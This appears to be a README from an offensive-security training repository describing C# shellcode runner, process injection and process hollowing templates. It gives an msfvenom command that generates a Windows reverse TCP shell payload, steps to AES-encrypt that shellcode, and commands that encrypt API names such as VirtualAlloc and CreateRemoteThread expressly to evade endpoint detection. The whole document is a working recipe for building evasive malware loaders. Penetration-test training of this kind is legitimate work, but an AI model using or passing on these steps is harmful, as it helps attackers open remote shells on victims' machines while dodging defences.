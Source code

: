 This directory contains Shellcode execution techniques in C#. 

## 1. Generate Shellcode 
```bash
# Generate shellcode and copy just the shellcode output (0x01, 0x02 etc..)
msfvenom -p windows/x64/shell/reverse_tcp LHOST=127.0.0.1 LPORT=8080 -f powershell
```

## 2. Encrypt shellcode with Invoke-EncyptAES.ps1 
Use the PowerShell script below to encrypt the shellcode
Invoke-EncryptAES.ps1: https://github.com/The-Viper-One/OSEP-Notes/blob/main/Helpers/Invoke-EncryptAES.ps1
```powershell
Invoke-EncryptAES -csharp -bytes "0x02, 0x03, 0x00"
```

## 3. Place the generated payload into any of the templates
Place the Warhead (payload) generated by Invoke-EncryptAES into any of the templates and compile the project.
![image](https://github.com/user-attachments/assets/c54a3bc3-9350-4c5c-bf09-9ef9c058947c)



## 4. Generate new keyword bytes for the template (Optional)

Optionally, we can generate new encryption keys and bytes to obfuscate keywords which may be detected by endpoint detection systems. For example, keywords such as VirtualAlloc and VirtualProtect may raise the overall detection signature of the script. This has already been done in the templates, but would be good practice to generate new keys and bytes everytime.

![image](https://github.com/user-attachments/assets/c9e954e8-152e-4376-b8c1-1ccd5d5793cc)


Additionally is it advised to remove comments from the templates before execution.

## Shellcode Runner templates
Applies to:
- AES_Shellcode_Runner_Dynamic_Invoke.cs
- UUID_Shellcode_Runner_Dynamic_Invoke.cs
```powershell
# Multiple Keys
Invoke-EncryptAES -csharp -MultipleKeys -InputStrings "Kernel32.dll, WaitForSingleObject, VirtualAlloc, CreateThread, VirtualProtect"

# Single Key
Invoke-EncryptAES -csharp -InputStrings "Kernel32.dll, WaitForSingleObject, VirtualAlloc, CreateThread, VirtualProtect"
```
### Shellcode Runner alternate
Applies to:
- AES_Shellcode_Runner_Dynamic_Invoke_Alternative.cs
```powershell
# Multiple Keys
Invoke-EncryptAES -InputStrings "kernel32.dll, HeapCreate, HeapAlloc, HeapFree, EnumSystemGeoID" -MultipleKeys

# Single Key
Invoke-EncryptAES -InputStrings "kernel32.dll, HeapCreate, HeapAlloc, HeapFree, EnumSystemGeoID"
```
### Process Injection
Applies to:
- AES_Process_Injection_Dynamic_Invoke.cs
- UUID_Process_Injection_Dynamic_Invoke.cs
```powershell
# Multiple Keys
Invoke-EncryptAES -csharp -MultipleKeys -InputStrings "Kernel32.dll, OpenProcess, VirtualAllocEx, ReadProcessMemory, WriteProcessMemory, CreateRemoteThread"

# Single Key
Invoke-EncryptAES -csharp -InputStrings "Kernel32.dll, OpenProcess, VirtualAllocEx, ReadProcessMemory, WriteProcessMemory, CreateRemoteThread"
```
### Process Injection Alternative
Applies to:
- AES_Process_Injection_Dynamic_Invoke_Alternate.cs
- UUID_Process_Injection_Dynamic_Invoke_Alternate.cs
```powershell
# Multiple Keys
Invoke-EncryptAES -csharp -MultipleKeys -InputStrings "Kernel32.dll, ntdll.dll, OpenProcess, CreateRemoteThread, ntClose, NtCreateSection, NtMapViewOfSection, NtUnmapViewOfSection"

# Single Key
Invoke-EncryptAES -csharp -InputStrings "Kernel32.dll, ntdll.dll, OpenProcess, CreateRemoteThread, ntClose, NtCreateSection, NtMapViewOfSection, NtUnmapViewOfSection"
```
### Process Hollowing
Applies to:
- AES_Process_Hollowing_Dynamic_Invoke.cs
- UUID_Process_Hollowing_Dynamic_Invoke.cs
```powershell
# Multiple Keys
Invoke-EncryptAES -csharp -MultipleKeys -InputStrings "Kernel32.dll, ntdll.dll, CreateProcess, ReadProcessMemory, WriteProcessMemory, ResumeThread, ZwQueryInformationProcess"

# Single Key
Invoke-EncryptAES -csharp -InputStrings "Kernel32.dll, ntdll.dll, CreateProcess, ReadProcessMemory, WriteProcessMemory, ResumeThread, ZwQueryInformationProcess"
```
